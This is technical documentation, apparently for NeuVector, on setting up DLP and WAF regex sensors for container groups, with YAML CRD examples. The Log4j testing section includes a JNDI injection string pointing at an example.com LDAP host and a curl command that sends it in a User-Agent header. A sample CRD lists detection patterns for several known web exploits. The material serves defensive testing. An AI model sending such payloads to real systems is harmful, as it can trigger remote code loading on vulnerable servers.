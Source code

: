 = DLP & WAF Sensors
:slug: /policy/dlp
:taxonomy: {"category"=>"docs"}

=== Data Loss Prevention (DLP) and Web Application Firewall (WAF)

DLP and WAF uses the Deep Packet Inspection (DPI) of NeuVector to inspect the network payloads of connections for sensitive data violations. NeuVector uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

DLP and WAF filtering are applied differently depending on the group(s) to which they are applied. In general, WAF filtering is applied to inbound and outbound connections except for internal traffic where only inbound filtering is applied. DLP filtering applies to inbound and outbound connections from a 'security domain', but not any internal connections within a security domain. See the detailed descriptions below.

Configuring DLP or WAF is a two step process:

. Define and test the sensor(s), which is the set of regular expressions used to match the header, URL, or entire packet.
. Apply the desired sensor to a Group, in the Policy \-> Groups screen.

==== WAF Sensors

WAF sensors represent inspection of network traffic to/from a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. In addition, any outbound (egress) connections external to the cluster will be inspected.

This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. For example, API security can be enforced on outbound connections to an external api service, allowing only GET requests and blocking POSTs.

Also note that, while similar to DLP, the inspection is for incoming traffic to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).

image::waf_sensors.png[waf]

==== DLP Sensors

DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (i.e. the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.

image::sensors.png[dlp]

==== Configuring DLP and WAF sensors

The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:

* Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
* Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
* Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.

image::5_sensor_config.png[waf]

Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:

[,shell]
----
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
----

This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":

[,shell]
----
docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
----

Adding a Not Have pattern removes the false positive:

[,shell]
----
istio\_(\w){5}
----

*_Sensors must be applied to a Group to become effective._*

==== Applying DLP/WAF Sensors to Container Groups

To activate a DLP or WAF sensor, go to Policy \-> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a Custom Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).

image::apply_dlp_group.png[group]

*DLP/WAF Behavior Summary*

* DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
* Any traffic passing in and out of a DLP group is scanned for pattern matches.
* Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
* Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
* Multiple alerts are generated for a single packet if it matches multiple rules.
* For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
* Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
* PCRE is used for pattern matching.
* Hyper scan library is used for efficient, scalable and high-performance pattern matching.

==== DLP/WAF Actions in Discover, Monitor, Protect Modes

When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:

* Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
* Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

==== Log4j Detection WAF Pattern

The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.

[,shell]
----
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
----

Also note that there are ways that attackers could bypass detection by such rules.

==== Testing the Log4j WAF Detection

In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:

[,shell]
----
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
----

Using curl to POST data to server(container) can help to test WAF rule:

[,shell]
----
curl -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
----

==== WAF Setup and Testing

The downloadable file below provides an unsupported script for creating WAF sensors via CRD and running common WAF rule tests against those sensors. The README provides instructions for running it.

link:waf_test.zip[Download WAF test script]

==== Sample Alerts

DLP match in Discover or Monitor Mode

image::dlp4_alert_discover.png[DLPAlert]

DLP match in Protect Mode

image::dlp_5_protect.png[DLPProtect]

DLP Security Event Notification for Credit Card Match

image::dlp6_credit.png[DLPCredit]

[NOTE]
====
The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.
====


=== Managing WAF Rules Using Import/Export or CRDs

It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD

[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
----

Sample CRD to apply a WAF sensor to a Group

[,yaml]
----
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
----

See the link:/policy/usingcrd[CRD section] for more details on working with CRDs.

=== DLP/WAF Response Rules

Response rules based on DLP/WAF security events can be created in Policy \->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.

image::dlp7_response.png[DLPResponse]

